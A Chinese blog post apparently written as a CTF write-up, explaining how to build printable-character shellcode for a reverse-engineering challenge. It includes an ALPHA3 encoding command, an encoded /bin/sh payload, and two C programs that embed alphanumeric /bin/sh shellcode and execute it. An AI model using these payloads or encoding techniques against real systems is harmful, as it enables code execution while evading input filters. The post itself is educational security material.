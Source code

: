 ```yaml
---
layout: post
title:  ShellCode也是一门学问
date:   2015-11-07
time:   15:18:00
tags : [ 技术相关 ,汇编+bin, ShellCode ]

---
```


## 开个头
最近拿到一道题，推测应该是西电的CTF题，来源很模糊，我也道不清原委，反正几经辗转到了我手里。  
这道题非常好，即考察了逆向能力，又考察了shellcode变形的一些知识。  

如果有机会再参与CTF出题，这道题绝对是一个值得花心思借鉴的题目。

## 题目概述
这里不准备把题目说的太细，就贴两张IDA逆向的结果图。简单描述一下题目的要求。

![rootkiter](http://rootkiter.com/images/2015_11_07_18_29/1.png)
![rootkiter](http://rootkiter.com/images/2015_11_07_18_29/2.png)

从这两张图可以提取出以下几个关键条件。
> 1. 用户输入的内容要在内存中进行一次异或解码;   
> 2. 解码后的内容必须为可视字符串，即只能为大小写字母，数字以及少部分标点字符，其他ascii中的无法显示的字符不能存在于ShellCode中;    
> 3. 当解码后的字符有“Bigtang”锚点子串时，则将解码的字符串当作代码进行执行;  
> 4. 在 图2 中可以看出，当解密数据被执行时，eax正好指向ShellCode基地址。


## 纯字符ShellCode
从题目描述可以得知，实际上这个题目的考点并不是软件类漏洞的利用，反而是对shellcode有一些极端的要求限制，当你通过了这些限制之后，自然就得到了执行条件。在这些限制条件中最难达到的其实就是纯字符的ShellCode了。  

对于纯可视字符类ShellCode的探索，网上也有过非常多的文章，国内比较好的文章有这样几篇：
> [<<纯字母shellcode揭秘>>](http://bbs.pediy.com/showthread.php?t=113177)  
> [<<纯字符数字的shllcode及Alpha2.c使用>>](http://blog.csdn.net/instruder/article/details/6050048)  
> [<<纯ascii的shellcode编写>>](http://blog.csdn.net/v_ling_v/article/details/42824007)

以上三篇都是国内安全圈人对可视化ShellCode的经典论述。然而最吸引我的却是一篇却是圈外人的博文。
[<< ASCII Assembly技术简介>>](http://demon.tw/programming/ascii-assembly.html)  这足以说明：对“可视化字符ShellCode”的探索是部分极客的一种追求。

在这些文章中也多次出现了一个域名 http://skypher.com/ ，在我写这篇博文时，该链接中是一片空白，只留得无尽遐想。想必他就是这种极客技术的领路人吧，不知他最近还好嘛。

## ShellCode编码变形
> 悄悄的skypher走了，
> 正如他轻轻的来，
> 他挥一挥衣袖，
> 不带走一片云彩。

在他没带走的云彩中，有这样一个工具托管
[https://code.google.com/p/alpha3/](https://code.google.com/p/alpha3/)
是一个可以对ShellCode进行字符编码的工具，该工具由python编写，不过我在Linux下竟然没运行起来，只在Windows下运行成功。

在做这道题时我用到了一个执行/bin/sh的ShellCode，来源地址：
[http://shell-storm.org/shellcode/files/shellcode-752.php](http://shell-storm.org/shellcode/files/shellcode-752.php),这个网站中有非常多种ShellCode适用各种姿势。不过该部分内容已经停止更新了，原因在于现代漏洞利用技术已经很少再集中精力写shellcode，而是更注意ROP的开发以及编写了。

使用 ALPHA3 工具之前，需要将 ShellCode 以二进制形式写到一个文件中，效果如下所示：

![rootkiter](http://rootkiter.com/images/2015_11_07_18_29/3.png)

然后就可以使用如下指令进行 ShellCode 编码了，我编码的目标为“X86 平台下、大写字符”，ShellCode开始执行那一刻，EAX寄存器保存了ShellCode的基地址。
所以指令如下所示：

<cmd>
	python ALPHA3.py x86 ascii uppercase EAX --input="shellcode"
</cmd>


![rootkiter](http://rootkiter.com/images/2015_11_07_18_29/4.png)

得到的结果如下：  
<code>
PYVTX10X41PZ41H4A4I1TA71TADVTZ32PZNBFZDQC02DQD0D13DJE1D485C3E1YKM6L7L0  
60Y011T2OKO2B5NJO90MM9M3I00
</code>

## 字符型 ShellCode 样例
这里有两段从他人博客找到的 ShellCode 样例：

<code>
//#######################################################################  
//             Length: 258 Bytes    /bin/sh  
//         http://www.securityfocus.com/archive/82/466792/30/180/threaded
//#######################################################################  
\#include\<stdio.h>  
char buf[] =   
"hAAAAX5AAAAHPPPPPPPPah4A00X5ZnCXPh0A00X50nRYPTYIII19hAA00X5Vb00PTY1"  
"9hA0A0X5fpsOPTY19II19I19h0AA0X5OpeFPTY19II19I19h004AX5Bf8sPTY19I19I"  
"I19h4040X58Bz8PTYII19h4520X58z9FPTY19I19I19I19h0000X5v7FvPTYI19I19h"  
"0AE0X58pzGPTY19II19hE000X5ZnFFPTYI19I19h555AX5ZZZUPTY19T\xc3";    
int main(){  
    fprintf(stdout,"Length: %d\n",strlen(buf));  
    (\*(void(\*)()) buf)();  
    return 0;  
}  

//#######################################################################  
//             Length: 147 Bytes    /bin/sh  
//       http://blog.csdn.net/v_ling_v/article/details/42824007  
//#######################################################################  
\#include\<stdio.h>  
char buf[] =   
"PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HM"  
"IQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHE"  
"P0WQCK9KQ8MK0AA";  

int main (){  
    fprintf(stdout,"Length: %d\n",strlen(buf));  
    (\*(void(\*)()) buf)();   
    return 0;  
}  


</code>


## 结个尾
事实上对 ShellCode 的探索一直就没有停止过， ShellCode 免杀，字符型 ShellCode，JIT下ShellCode，DVE中的虚拟执行层 ShellCode，正如<< ASCII Assembly技术简介>>中所说的：

> 没有什么神秘可言  
> 可执行程序是二进制文件  
> 文本文件也是二进制文件  
> 它们本质上没有什么区别  
> in.com 程序的特殊性在于   
> 所有的代码全部分布于ASCII码表的可显示字符范围中  
> 当然这样的程序不是碰巧得到的  
> 而是人为的构造出来的  
> 其中需要用到许多技巧   

再附上一篇关于Unicode的ShellCode编写的文章，作为结尾。  
[<<编写Unicode有效的Shellcode>>](http://huaidan.org/archives/1214.html)
